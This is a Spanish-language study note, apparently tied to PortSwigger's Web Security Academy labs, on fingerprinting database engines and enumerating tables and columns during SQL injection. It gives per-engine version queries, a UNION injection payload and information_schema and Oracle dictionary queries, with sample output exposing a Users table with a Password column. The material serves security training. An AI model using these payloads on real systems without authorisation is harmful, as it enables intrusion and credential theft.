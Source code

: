 # Examinar la base de datos en ataques SQLi


## Resumen

Para explotar una vulnerabilidad de SQL injection es muy útil conocer el **tipo y la versión** del gestor de base de datos (SGBD) y **qué tablas y columnas** existen. Con esta información podemos construir payloads más precisos (por ejemplo `UNION SELECT` con el número correcto de columnas o funciones específicas del motor) y estimar el impacto.

Este documento muestra consultas típicas para identificar la versión y para enumerar tablas y columnas, con variantes para MySQL, Microsoft SQL Server, PostgreSQL, Oracle y SQLite.

[SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

## Identificar el tipo y la versión de la base de datos

Una forma común de identificar el SGBD es inyectar consultas específicas del proveedor que devuelvan la versión. Si la consulta funciona y devuelve datos, podemos inferir el motor y la versión.

### Consultas típicas por SGBD

* **Microsoft SQL Server / MySQL**

  ```sql
  SELECT @@version;
  ```

* **Oracle**

  ```sql
  SELECT * FROM v$version;
  ```

* **PostgreSQL**

  ```sql
  SELECT version();
  ```

* **SQLite**

  ```sql
  SELECT sqlite_version();
  ```

### Ejemplo con UNION

Si la aplicación permite `UNION` y la salida de la consulta se muestra en la página, puedes usar un payload como:

```
' UNION SELECT @@version--
```

Si la respuesta contiene algo como:

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
... Standard Edition (64-bit) on Windows Server 2016 ...
```

entonces confirmas que el motor es Microsoft SQL Server y puedes ajustar payloads posteriores.

[Lab: SQL injection attack, querying the database type and version on Oracle](1_SQL_injection_attack,_querying_the_database_type_and_version_on_Oracle.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

[Lab: SQL_injection_attack,_querying_the_database_type_and_version_on_MySQL_and_Microsoft](2_SQL_injection_attack,_querying_the_database_type_and_version_on_MySQL_and_Microsoft.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

---

## Listar el contenido de la base de datos (tablas y columnas)

La mayoría de SGBD (excepto Oracle, que usa diccionarios específicos) implementan `information_schema`, un conjunto de vistas que describen metadatos (tablas, columnas, etc.). Consultar `information_schema` es una forma portátil de enumerar tablas/columnas en MySQL, PostgreSQL y SQL Server.

### Listar tablas (information_schema)

Consulta genérica (funciona en MySQL, PostgreSQL, SQL Server donde exista `information_schema`):

```sql
SELECT table_catalog, table_schema, table_name, table_type
FROM information_schema.tables
WHERE table_type = 'BASE TABLE'
ORDER BY table_schema, table_name;
```

**Salida de ejemplo:**

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

Esto indica que existen tres tablas: `Products`, `Users` y `Feedback`.

### Listar columnas de una tabla

Consulta genérica usando `information_schema.columns`:

```sql
SELECT table_catalog, table_schema, table_name, column_name, data_type
FROM information_schema.columns
WHERE table_name = 'Users'
ORDER BY ordinal_position;
```

**Salida de ejemplo:**

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

Con esto conoces las columnas y sus tipos.


[Lab: SQL_injection_attack,_listing_the_database_contents_on_non-Oracle_databases](3_SQL_injection_attack,_listing_the_database_contents_on_non-Oracle_databases.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

---

## Oracle — vistas del diccionario

Oracle no siempre expone `information_schema`. En su lugar dispone de vistas como `ALL_TABLES`, `USER_TABLES`, `ALL_TAB_COLUMNS`, `USER_TAB_COLUMNS`.

* Listar tablas accesibles:

  ```sql
  SELECT owner, table_name FROM all_tables;
  -- o para sólo las del usuario actual:
  SELECT table_name FROM user_tables;
  ```

* Listar columnas de una tabla (ej. `USERS`):

  ```sql
  SELECT column_name, data_type FROM all_tab_columns WHERE table_name = 'USERS';
  ```

[Lab: SQL_injection_attack,_listing_the_database_contents_on_Oracle.md](4_SQL_injection_attack,_listing_the_database_contents_on_Oracle.md)  
![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

---

